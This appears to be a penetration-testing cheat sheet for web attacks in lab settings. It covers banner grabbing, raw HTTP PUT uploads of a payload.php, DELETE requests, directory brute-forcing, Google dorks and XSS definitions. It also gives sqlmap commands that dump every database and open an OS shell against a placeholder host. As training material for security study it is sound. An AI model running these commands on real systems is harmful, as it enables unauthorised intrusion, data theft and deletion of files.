 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\)

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\)

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

```bash
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs

`GET,  POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning

### Dirbuster

![Dirbuster](../.gitbook/assets/dirbuster.png)

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt` 
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Oprions -&gt; Advanced Options -&gt; Authentication options\]

### dirb

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

## Google Dorks

`site:  
intitle:  
inurl:  
filetype:  
AND, OR & |  
-`

[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross Site Scripting\)

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload. 

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST

Find the parameters that are being passed in POST using BurpSuite.  
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find it on it's own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

